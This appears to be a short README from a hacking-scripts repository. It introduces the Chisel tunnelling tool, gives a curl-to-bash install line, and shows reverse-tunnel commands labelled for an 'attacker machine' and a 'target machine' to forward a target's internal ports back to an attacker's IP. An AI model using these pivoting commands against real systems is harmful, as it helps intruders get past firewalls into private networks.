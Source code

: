 # Hack_Scripts

The Scripts for Hacking and general ,
Includes python2  and Java
  --> Java
  --> Python
  --> Php

# CHISEL

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

See the latest release or download and install it now with curl https://i.jpillora.com/chisel! | bash

# Usage

$ chisel --help
  Usage: chisel [command] [--help]
  
  Version: X.Y.Z
  
  Commands:
  server - runs chisel in server mode
  client - runs chisel in client mode
    
  Read more:
  https://github.com/jpillora/chisel
    
'chisel server -p 9000 --reverse -v'   >> Run in Attacker Machine
'chisel client <attacker ip:port{differnt port}> R:<attacker ip:port{different port1}>:<localhost:port{running port, need to be forwarded}>'   >> Run in Target Machine
 

# 
